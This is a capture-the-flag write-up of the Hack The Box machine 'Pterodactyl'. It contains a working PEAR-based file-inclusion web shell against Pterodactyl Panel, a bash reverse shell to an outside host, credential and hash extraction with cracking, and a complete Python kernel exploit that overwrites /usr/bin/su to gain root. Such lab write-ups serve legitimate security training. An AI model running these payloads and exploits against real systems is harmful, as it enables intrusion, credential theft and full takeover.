


## Nmap
1. All TCP Port scan
```
sudo nmap -Pn 10.129.235.18 -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-26 21:13 EDT
Nmap scan report for 10.129.235.18
Host is up (0.11s latency).
Not shown: 65519 filtered tcp ports (no-response), 12 filtered tcp ports (admin-prohibited)
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  closed https
8080/tcp closed http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
```
2. All UDP port scan
```
sudo nmap -Pn 10.129.235.18 -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-26 21:13 EDT
Warning: 10.129.235.18 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.235.18
Host is up (0.12s latency).
All 65535 scanned ports on 10.129.235.18 are in ignored states.
Not shown: 65499 open|filtered udp ports (no-response), 36 filtered udp ports (admin-prohibited)

Nmap done: 1 IP address (1 host up) scanned in 36.75 seconds
```
3. Script and version scan
```
sudo nmap -Pn 10.129.235.18 -sCV -p22,80 --min-rate 20000 -oN nmap/scriptVersionScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-26 21:13 EDT
Nmap scan report for 10.129.235.18
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
|_  256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
80/tcp open  http    nginx 1.21.5
|_http-title: Did not follow redirect to http://pterodactyl.htb/
|_http-server-header: nginx/1.21.5

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.98 seconds
```
## Web App Research
1. Pterodactyl main page
	
2. Contents of `http://pterodactyl.htb/changelog.txt`
```
MonitorLand - CHANGELOG.txt
======================================

Version 1.20.X

[Added] Main Website Deployment
--------------------------------
- Deployed the primary landing site for MonitorLand.
- Implemented homepage, and link for Minecraft server.
- Integrated site styling and dark-mode as primary.

[Linked] Subdomain Configuration
--------------------------------
- Added DNS and reverse proxy routing for play.pterodactyl.htb.
- Configured NGINX virtual host for subdomain forwarding.

[Installed] Pterodactyl Panel v1.11.10
--------------------------------------
- Installed Pterodactyl Panel.
- Configured environment:
  - PHP with required extensions.
  - MariaDB 11.8.3 backend.

[Enhanced] PHP Capabilities
-------------------------------------
- Enabled PHP-FPM for smoother website handling on all domains.
- Enabled PHP-PEAR for PHP package management.
- Added temporary PHP debugging via phpinfo()
```
- Arbitrary RCE of Pterodactyl Panel v1.11.10: https://github.com/pterodactyl/panel/security/advisories/GHSA-24wv-6c99-f843
3. We can access phpinfo at `phpinfo.php`. Collected info:
	- USER: `wwwrun`
	- `$_SERVER['SCRIPT_FILENAME']`: `/var/www/html/phpinfo.php`
	- HOME: `/var/lib/wwwrun`
4. Subdomain fuzzing
```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://10.129.235.18 -H "Host:FUZZ.pterodactyl.htb" -fs 145
```
Output:
```
panel                   [Status: 200, Size: 1897, Words: 490, Lines: 36, Duration: 249ms]
```
- Add to `/etc/hosts`
4. File fuzzing
```
ffuf -w /opt/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u http://pterodactyl.htb/FUZZ.php -ic -o htb_file_fuzz.txt
```
## panel.pterodactyl.htb
1. We can use this [POC](https://www.exploit-db.com/exploits/52341) to extract database credentials
```
python3 CVE-2025-49132.py http://panel.pterodactyl.htb/
http://panel.pterodactyl.htb/ => pterodactyl:PteraPanel@127.0.0.1:3306/panel
```
2. Reading the source code, we can achieve Local file disclosure using this payload
```http
GET /locales/locale.json?locale=../../../pterodactyl&namespace=config/database HTTP/1.1

Host: panel.pterodactyl.htb
```
3. From phpinfo.php, we can see that there are 2 PEAR directories
	
4. We can write a file like this
```http
GET /locales/locale.json?+config-create+/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E+/var/www/pterodactyl/payload.php' HTTP/1.1
```
Output:
```
CONFIGURATION (CHANNEL PEAR.PHP.NET):
=====================================
Auto-discover new Channels     auto_discover    <not set>
Default Channel                default_channel  pear.php.net
HTTP Proxy Server Address      http_proxy       <not set>
PEAR server [DEPRECATED]       master_server    <not set>
Default Channel Mirror         preferred_mirror <not set>
Remote Configuration File      remote_config    <not set>
PEAR executables directory     bin_dir          /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear
PEAR documentation directory   doc_dir          /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/docs
PHP extension directory        ext_dir          /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/ext
PEAR directory                 php_dir          /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/php
PEAR Installer cache directory cache_dir        /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/cache
PEAR configuration file        cfg_dir          /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/cfg
directory
PEAR data directory            data_dir         /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/data
PEAR Installer download        download_dir     /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/download
directory
Systems manpage files          man_dir          /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/man
directory
PEAR metadata directory        metadata_dir     <not set>
PHP CLI/CGI binary             php_bin          <not set>
php.ini location               php_ini          <not set>
--program-prefix passed to     php_prefix       <not set>
PHP's ./configure
--program-suffix passed to     php_suffix       <not set>
PHP's ./configure
PEAR Installer temp directory  temp_dir         /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/temp
PEAR test directory            test_dir         /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/tests
PEAR www files directory       www_dir          /&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/%3C%3Fphp%20sleep%285%29%3B%3E/pear/www
Cache TimeToLive               cache_ttl        <not set>
Preferred Package State        preferred_state  <not set>
Unix file mask                 umask            <not set>
Debug Log Level                verbose          <not set>
PEAR password (for             password         <not set>
maintainers)
Signature Handling Program     sig_bin          <not set>
Signature Key Directory        sig_keydir       <not set>
Signature Key Id               sig_keyid        <not set>
Package Signature Type         sig_type         <not set>
PEAR username (for             username         <not set>
maintainers)
User Configuration File        Filename         /var/www/pterodactyl/payload.php'
System Configuration File      Filename         #no#system#config#
Successfully created default configuration file "/var/www/pterodactyl/payload.php'"
```
5. I was stuck here for a long time. Apparently, I need to add an additional `/` after `&`
```
GET /locales/locale.json?+config-create+/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&<?=system($_GET['cmd'])?>+/tmp/payload.php HTTP/1.1

Host: panel.pterodactyl.htb
```
When we access it,
```
GET /locales/locale.json?locale=../../../../../tmp&namespace=payload&cmd=id HTTP/1.1
```
Output:
```
#PEAR_Config 0.9
a:13:{s:7:"php_dir";s:87:"/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&uid=474(wwwrun) gid=477(www) groups=477(www)
```
6. To get a reverse shell,
```
GET /locales/locale.json?locale=../../../../../tmp&namespace=payload&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.13/9999+0>%261' HTTP/1.1

Host: panel.pterodactyl.htb
```
Output:
```
nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.6] from (UNKNOWN) [10.129.235.18] 60198
bash: cannot set terminal process group (1213): Inappropriate ioctl for device
bash: no job control in this shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> id
id
uid=474(wwwrun) gid=477(www) groups=477(www)
```
## Shell as wwwrun
1. Use script to spawn a tty
```
script -qc /bin/bash /dev/null
```
Background the shell. `CTRL+Z`
On your machine,
```
stty raw -echo; fg
```
Then, press enter twice
2. There is an interesting file in `/var/lib/wwwrun`
```
cat .bash_history
crontab -e
crontab -l
ls -la
cd ..
ls -la
cd html
ls -la
cat changelog.txt 
nano changelog.txt 
exit

```
3. Check crontab
```
crontab -l
```
Output:
```
* * * * * php /var/www/pterodactyl/artisan schedule:run >> /dev/null 2>&1
```
4. In root, there is an interesting file `mounted-map`
```
cat mounted-map
/dev/sdb1 / btrfs
```
5. `/etc/passwd`
```
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash
messagebus:x:499:499:User for D-Bus:/run/dbus:/usr/bin/false
nobody:x:65534:65534:nobody:/var/lib/nobody:/bin/bash
man:x:13:62:Manual pages viewer:/var/lib/empty:/usr/sbin/nologin
mail:x:498:498:Mailer daemon:/var/spool/clientmqueue:/usr/sbin/nologin
lp:x:497:497:Printing daemon:/var/spool/lpd:/usr/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/usr/sbin/nologin
bin:x:1:1:bin:/bin:/usr/sbin/nologin
chrony:x:496:482:Chrony Daemon:/var/lib/chrony:/usr/sbin/nologin
postfix:x:51:51:Postfix Daemon:/var/spool/postfix:/usr/sbin/nologin
systemd-timesync:x:480:480:systemd Time Synchronization:/:/usr/sbin/nologin
nscd:x:479:479:User for nscd:/run/nscd:/usr/sbin/nologin
polkitd:x:478:478:User for polkitd:/var/lib/polkit:/usr/sbin/nologin
rpc:x:477:65534:user for rpcbind:/var/lib/empty:/sbin/nologin
statd:x:476:65533:NFS statd daemon:/var/lib/nfs:/sbin/nologin
sshd:x:475:475:SSH daemon:/var/lib/sshd:/usr/sbin/nologin
wwwrun:x:474:474:WWW daemon apache:/var/lib/wwwrun:/usr/sbin/nologin
mysql:x:60:60:MySQL database admin:/var/lib/mysql:/usr/sbin/nologin
redis:x:473:473:User for redis key-value store:/var/lib/redis:/usr/sbin/nologin
nginx:x:472:472:User for nginx:/var/lib/nginx:/usr/sbin/nologin
dockremap:x:471:471:docker --userns-remap=default:/:/usr/sbin/nologin
pterodactyl:x:470:100::/home/pterodactyl:/usr/sbin/nologin
headmonitor:x:1001:100::/home/headmonitor:/bin/bash
phileasfogg3:x:1002:100::/home/phileasfogg3:/bin/bash
_laurel:x:469:100::/var/log/laurel:/bin/false
```
6. OS info
```
cat /etc/os-release
NAME="openSUSE Leap"
VERSION="15.6"
ID="opensuse-leap"
ID_LIKE="suse opensuse"
VERSION_ID="15.6"
PRETTY_NAME="openSUSE Leap 15.6"
ANSI_COLOR="0;32"
CPE_NAME="cpe:/o:opensuse:leap:15.6"
BUG_REPORT_URL="https://bugs.opensuse.org"
HOME_URL="https://www.opensuse.org/"
DOCUMENTATION_URL="https://en.opensuse.org/Portal:Leap"
LOGO="distributor-logo-Leap"
```
7. env
```
MAIL_HOST=smtp.example.com
USER=wwwrun
REDIS_HOST=127.0.0.1
APP_ENV=production
PWD=/
APP_KEY=base64:UaThTPQnUjrrK61o+Luk7P9o4hM+gl4UiMJqcbTSThY=
HOME=/var/lib/wwwrun
DB_PASSWORD=PteraPanel
HASHIDS_LENGTH=8
MAIL_ENCRYPTION=tls
APP_URL=http://panel.pterodactyl.htb
MAIL_MAILER=smtp
APP_TIMEZONE=UTC
QUEUE_CONNECTION=redis
CACHE_DRIVER=redis
DB_USERNAME=pterodactyl
LS_OPTIONS=-N --color=none -T 0
SHLVL=5
APP_SERVICE_AUTHOR=pterodactyl@pterodactyl.htb
SESSION_DRIVER=redis
DB_CONNECTION=mysql
APP_THEME=pterodactyl
RECAPTCHA_ENABLED=false
MAIL_PORT=25
MAIL_FROM_NAME=Pterodactyl Panel
LOG_CHANNEL=daily
MAIL_USERNAME=
DB_DATABASE=panel
_=/usr/bin/env
OLDPWD=/dev
```
8. Listening TCP ports
```
ss -tlnp
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*          
LISTEN 0      512        127.0.0.1:9000      0.0.0.0:*          
LISTEN 0      512          0.0.0.0:80        0.0.0.0:*          
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*          
LISTEN 0      511        127.0.0.1:6379      0.0.0.0:*          
LISTEN 0      100        127.0.0.1:25        0.0.0.0:*          
LISTEN 0      128             [::]:22           [::]:*  
```
9. We have read access over `/home/phileasfogg3`
```
drwxr-xr-x 1 phileasfogg3 users 156 Dec 31 17:29 phileasfogg3
```
10. Somehow connecting to the database via mariadb does not work
```
mariadb -u pterodactyl -p
```
But this works
```
php /var/www/pterodactyl/artisan db
```
12. Interesting  contents from the database
```
MariaDB [panel]> SELECT username,password FROM users;
+--------------+--------------------------------------------------------------+
| username     | password                                                     |
+--------------+--------------------------------------------------------------+
| headmonitor  | $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 |
| phileasfogg3 | $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi |
+--------------+--------------------------------------------------------------+
2 rows in set (0.000 sec)

```
13. Contents of `/var/www/pterodactyl/.env`
```
APP_ENV=production
APP_DEBUG=false
APP_KEY=base64:UaThTPQnUjrrK61o+Luk7P9o4hM+gl4UiMJqcbTSThY=
APP_THEME=pterodactyl
APP_TIMEZONE=UTC
APP_URL="http://panel.pterodactyl.htb"
APP_LOCALE=en
APP_ENVIRONMENT_ONLY=false

LOG_CHANNEL=daily
LOG_DEPRECATIONS_CHANNEL=null
LOG_LEVEL=debug

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=panel
DB_USERNAME=pterodactyl
DB_PASSWORD=PteraPanel

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

CACHE_DRIVER=redis
QUEUE_CONNECTION=redis
SESSION_DRIVER=redis

HASHIDS_SALT=pKkOnx0IzJvaUXKWt2PK
HASHIDS_LENGTH=8

MAIL_MAILER=smtp
MAIL_HOST=smtp.example.com
MAIL_PORT=25
MAIL_USERNAME=
MAIL_PASSWORD=
MAIL_ENCRYPTION=tls
MAIL_FROM_ADDRESS=no-reply@example.com
MAIL_FROM_NAME="Pterodactyl Panel"
# You should set this to your domain to prevent it defaulting to 'localhost', causing
# mail servers such as Gmail to reject your mail.
#
# @see: https://github.com/pterodactyl/panel/pull/3110
# MAIL_EHLO_DOMAIN=panel.example.com

APP_SERVICE_AUTHOR="pterodactyl@pterodactyl.htb"
PTERODACTYL_TELEMETRY_ENABLED=false
RECAPTCHA_ENABLED=false

```
14. Linpeas.sh
```
CVE: CVE-2024-1086 | Name: double-free in nf_tables | Match data: pkg=linux-kernel,x86_64,ver>=5.14,ver<=6.6,CONFIG_NF_TABLES=y,CONFIG_USER_NS=y,sysctl:kernel.unprivileged_userns_clone==1 | Tags: debian=12,ubuntu=22.04 | Rank: 1 | Details: CONFIG_USER_NS and CONFIG_NF_TABLES need to be enabled && kernel.unprivileged_userns_clone=1 required

╔══════════╣ Mails (limit 50) (T1114.001)                                                                                                                                
     2212      0 -rw-rw----   1 headmonitor mail            0 Nov  7 15:54 /var/mail/headmonitor                                                                         
    16607      4 -rw-rw----   1 phileasfogg3 mail          960 Dec 29 15:58 /var/mail/phileasfogg3
     2212      0 -rw-rw----   1 headmonitor  mail            0 Nov  7 15:54 /var/spool/mail/headmonitor
    16607      4 -rw-rw----   1 phileasfogg3 mail          960 Dec 29 15:58 /var/spool/mail/phileasfogg3

```
15. Ok interesting, we just need to crack the hash.
```
 hashcat -a 0 -m 3200  hashes /usr/share/wordlists/rockyou.txt
```
- I missed it because I stopped the cracking before it went through the entire wordlist. Perhaps next time, I need to run `hashcat -a 0 -m 3200  hashes /usr/share/wordlists/rockyou.txt --show` in case one of the hashes was cracked
Output:
```
$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi:!QAZ2wsx
```
## Shell as phileasfogg3
1. Sudo privileges
```
sudo -l
[sudo] password for phileasfogg3: 
Matching Defaults entries for phileasfogg3 on pterodactyl:
    always_set_home, env_reset, env_keep="LANG LC_ADDRESS LC_CTYPE LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS XDG_SESSION_COOKIE", !insults, secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin, targetpw

User phileasfogg3 may run the following commands on pterodactyl:
    (ALL) ALL
```
- Interesting `targetpw` means that we must know the password of the target user, not our password
2. Email contents `/var/spool/mail/phileasfogg3`
```
Received: by pterodactyl (Postfix, from userid 0)
id 1234567890; Fri, 7 Nov 2025 09:15:00 +0100 (CET)
From: headmonitor headmonitor@pterodactyl
To: All Users all@pterodactyl
Subject: SECURITY NOTICE — Unusual udisksd activity (stay alert)
Message-ID: 202511070915.headmonitor@pterodactyl
Date: Fri, 07 Nov 2025 09:15:00 +0100
MIME-Version: 1.0
Content-Type: text/plain; charset="utf-8"
Content-Transfer-Encoding: 7bit

Attention all users,

Unusual activity has been observed from the udisks daemon (udisksd). No confirmed compromise at this time, but increased vigilance is required.

Do not connect untrusted external media. Review your sessions for suspicious activity. Administrators should review udisks and system logs and apply pending updates.

Report any signs of compromise immediately to headmonitor@pterodactyl.htb

— HeadMonitor
System Administrator
```
3. There is a vulnerability in udisk2, [CVE-2025-6019](https://github.com/guinea-offensive-security/CVE-2025-6019)
```
sudo ./exploit.sh
```
Output:
```
WARNING: Only run this on authorized systems. Unauthorized use is illegal.
Continue? [y/N]: y
[+] All dependencies are installed.
[*] Checking for vulnerable libblockdev/udisks versions...
[*] Detected udisks version: unknown
[!] Warning: Specific vulnerable versions for CVE-2025-6019 are unknown.
[!] Verify manually that the target system runs a vulnerable version of libblockdev/udisks.
[!] Continuing with PoC execution...
Select mode:
[L]ocal: Create 300 MB XFS image (requires root)
[C]ible: Exploit target system
[L]ocal or [C]ible? (L/C): L
[*] Creating a 300 MB XFS image on local machine...
300+0 records in
300+0 records out
314572800 bytes (315 MB, 300 MiB) copied, 0.161445 s, 1.9 GB/s
meta-data=./xfs.image            isize=512    agcount=4, agsize=19200 blks
         =                       sectsz=512   attr=2, projid32bit=1
         =                       crc=1        finobt=1, sparse=1, rmapbt=1
         =                       reflink=1    bigtime=1 inobtcount=1 nrext64=1
         =                       exchange=1   metadir=0
data     =                       bsize=4096   blocks=76800, imaxpct=25
         =                       sunit=0      swidth=0 blks
naming   =version 2              bsize=4096   ascii-ci=0, ftype=1, parent=1
log      =internal log           bsize=4096   blocks=16384, version=2
         =                       sectsz=512   sunit=0 blks, lazy-count=1
realtime =none                   extsz=4096   blocks=0, rtextents=0
         =                       rgcount=0    rgsize=0 extents
         =                       zoned=0      start=0 reserved=0
[+] 300 MB XFS image created: ./xfs.image
[*] Transfer to target with: scp xfs.image <user>@<host>:
```
Transfer the image over
```
scp xfs.image phileasfogg3@pterodactyl.htb:
```
Execute the script
```
./exploit.sh
```
- Does not work. This is the way but I cannot exploit it.
4. Hahaha I abused CVE-2026-31431 to get root. However, we need to modify the script to take into account the older Python that does not have `os.splice`
```python
#!/usr/bin/env python3
import os
import zlib
import socket
import ctypes

# Setup ctypes to call the C library's splice function
libc = ctypes.CDLL("libc.so.6")

# ssize_t splice(int fd_in, loff_t *off_in, int fd_out, loff_t *off_out, size_t len, unsigned int flags);
_splice = libc.splice
_splice.argtypes = [
    ctypes.c_int, 
    ctypes.POINTER(ctypes.c_longlong), 
    ctypes.c_int, 
    ctypes.POINTER(ctypes.c_longlong), 
    ctypes.c_size_t, 
    ctypes.c_uint
]
_splice.restype = ctypes.c_ssize_t
def d(x):
    return bytes.fromhex(x)

def c(f, t, c_data):
    a = socket.socket(38, 5, 0)
    a.bind(("aead", "authencesn(hmac(sha256),cbc(aes))"))
    h = 279
    v = a.setsockopt
    v(h, 1, d("0800010000000010" + "0" * 64))
    v(h, 5, None, 4)
    u, _ = a.accept()
    o = t + 4
    i = d("00")
    
    u.sendmsg(
        [b"A" * 4 + c_data],
        [
            (h, 3, i * 4),
            (h, 2, b"\x10" + i * 19),
            (h, 4, b"\x08" + i * 3),
        ],
        32768,
    )
    
    r, w = os.pipe()
    # Replacement for n(f, w, o, offset_src=0)
    off_src = ctypes.c_longlong(0)
    _splice(f, ctypes.byref(off_src), w, None, o, 0)
    
    # Replacement for n(r, u.fileno(), o)
    _splice(r, None, u.fileno(), None, o, 0)
    
    try:
        u.recv(8 + t)
    except:
        pass
    
    os.close(r)
    os.close(w)

f = os.open("/usr/bin/su", 0)
i = 0
e = zlib.decompress(
    d(
        "78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f
75b9675c44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"
    )
)

while i < len(e):
    c(f, i, e[i : i + 4])
    i += 4

os.system("su")
```
- Got root!
## Reflection
1. This blog details the intended path: https://0xdf.gitlab.io/2026/05/16/htb-pterodactyl.html. Funnily enough, the 0xdf also showcased the copyfail vulnerability.